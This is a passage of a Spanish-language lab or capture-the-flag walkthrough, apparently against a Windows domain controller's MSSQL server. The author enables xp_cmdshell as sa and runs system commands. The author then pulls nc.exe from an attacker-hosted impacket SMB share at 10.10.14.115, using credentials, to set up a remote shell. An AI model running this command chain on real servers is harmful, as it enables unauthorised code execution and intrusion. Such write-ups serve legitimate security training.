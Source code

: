 `Whoami`:

```
SQL (sa  dbo@master)> enable_xp_cmdshell
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> xp_cmdshell whoami
output           
--------------   
sequel\sql_svc   

NULL             

SQL (sa  dbo@master)>
```

Para obtener una shell copiare el netcat para windows, primero creo un directorio llamado `test` en  `C:\Windows\Temp`:

```
QL (sa  dbo@master)> xp_cmdshell mkdir C:\Windows\Temp\test
```

y levanto un recurso compartido con smbserver llamado cangrejo vinculado al path actual donde tengo el `nc.exe`:

```
impacket-smbserver cangrejo $(pwd) -smb2support
```

Copio el `nc.exe` en el directorio test:

```
xp_cmdshell copy \\10.10.14.115\cangrejo\nc.exe C:\Windows\Temp\test
```

Me salta el siguiente error

```
SQL (sa dbo@master)> xp_cmdshell copy \\10.10.14.115\cangrejo\nc.exe C:\Windows\Temp\test 
output 
-------------------------------------------------------------------------------- You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
```

Para solucionar el error de acceso por autenticacion como invitado, levanto el recurso con usuario y contraseña:

```
impacket-smbserver cangrejo $(pwd) -smb2support -username cangrejo -password cangrejo123
```

y con xp_cmdshell me conecto al recurso compartido:

```
xp_cmdshell net use \\10.10.14.115\cangrejo /user:cangrejo cangrejo123
```
